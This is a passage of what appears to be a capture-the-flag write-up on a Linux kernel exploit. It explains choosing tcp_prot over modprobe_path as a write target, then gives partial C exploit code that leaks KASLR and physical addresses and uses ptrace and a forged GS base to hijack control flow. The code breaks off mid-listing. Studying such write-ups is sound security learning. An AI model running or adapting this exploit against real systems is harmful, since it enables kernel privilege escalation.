 # 0x03. Control Flow Hijacking

After we leak the addresses, with the primitive to leak some data, we need to consider about "Where to write". A simple answer is `modprobe_path`, however, if you try it, you'll find it's not such simple since the primitive actually dumped so much stuff to the stack, which polluted some global variables near `modprobe_path`. You can somehow fix these variables and attack successfully like what zolutal did. I'm targeting to learn some new method so sorry Justin, I didn't reproduce your solution. After long time of failing, I read the author's write-up and learned a new variable to attack: `tcp_prot`.



After figuring out what to attack, the left story is simple. Just debug more and read more source code. Btw, don't forget that you can set GS/rflags in user space

# 0x03. Exp

```c
// https://github.com/n132/libx
// gcc ./fs/exp.c -masm=intel -o ./fs/exp -lx -lpthread --static -w
#include "libx.h"
#define PIPE_BUF_FUNC 0xffffffff82427c08
#define DEBUG 0
int     fd       = 1;
size_t  KASLR    = 0;
size_t  PHYS     = 0;
int main()
{

    saveStatus();
    hook_segfault();

    if(! DEBUG){
        KASLR = leakKASLR(0,0x800000,0);
        PHYS = leakPHYS(0);
        warn(hex(KASLR));
        warn(hex(PHYS));
    }else{
        KASLR = 0xffffffff81000000;
        PHYS = 0xffff888000000000;
    }

    fd = socket(AF_INET, SOCK_STREAM, 0);
    int pid = fork();
    if(!pid){
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        kill(getpid(), SIGSTOP); 
        set_gs_base(0xffff88813bc00000-0xffff888000000000+PHYS);
        fork();
        exit(1);
    }
    else{
        struct user_regs_struct regs;
        int status;      
        waitpid(pid, &status, 0);
        if (ptrace(PTRACE_SETOPTIONS, pid, 0, PTRACE_O_TRACEFORK) == -1)
            panic("ptrace(PTRACE_SETOPTIONS)");
        
        // debug();
        ptrace(PTRACE_CONT, pid, 0, 0);

        pid = waitpid(-1, &status, 0);
        if (pid == -1) {
```